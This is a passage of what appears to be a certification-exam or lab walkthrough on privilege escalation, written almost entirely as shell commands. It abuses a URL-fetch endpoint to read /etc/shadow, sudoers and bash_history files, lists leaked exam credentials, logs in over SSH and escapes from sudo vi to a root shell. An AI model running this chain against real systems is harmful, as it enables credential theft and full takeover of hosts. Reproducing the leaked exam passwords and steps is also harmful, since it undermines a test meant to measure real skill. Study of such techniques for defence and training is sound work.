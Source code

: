 
---

## Phase 3: Privilege Escalation

### User Enumeration
```bash
# Extract user information
curl -s "http://<target_ip>:23100/fetch?url=file:///etc/passwd" | grep app-admin
curl -s "http://<target_ip>:23100/fetch?url=file:///etc/shadow"

# Check sudo privileges
curl -s "http://<target_ip>:23100/fetch?url=file:///etc/sudoers"

# Common credential locations
curl -s "http://<target_ip>:23100/fetch?url=file:///home/app-admin/.bash_history"
curl -s "http://<target_ip>:23100/fetch?url=file:///root/.bash_history"
```

### Credential Discovery
```bash
# Known credentials from exam attempts
# app-admin: @dmin@123
# HotHost password: Very3stroungPassword
# sync_user: Summer@2025
# privilege: Admin@962

# Test SSH access
ssh app-admin@<target_ip>
ssh privilege@<target_ip>
# Password: @dmin@123 or Admin@962

# Check sudo capabilities
sudo -l
# Expected: /usr/bin/vi
```

### Vi Privilege Escalation
```bash
# Once logged in as app-admin with vi sudo access
sudo /usr/bin/vi /etc/passwd

# In vi, escape to shell
:!/bin/bash

# Alternative vi escalation
sudo /usr/bin/vi
:set shell=/bin/bash
:shell
```

---
